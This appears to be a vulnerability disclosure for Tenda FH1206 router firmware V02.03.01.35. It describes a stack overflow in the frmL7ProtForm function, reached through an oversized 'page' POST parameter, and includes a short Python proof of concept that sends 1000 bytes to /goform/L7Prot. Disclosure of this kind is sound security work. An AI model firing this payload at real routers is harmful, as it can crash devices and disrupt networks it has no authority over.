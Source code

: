 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `frmL7ProtForm` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v15, "firewall_proto_list.asp?page=%s", v10);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![image-20240802203032028](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802203032028.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/L7Prot"
payload = b"a"*1000

data = {"page": payload, "op": "5"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)

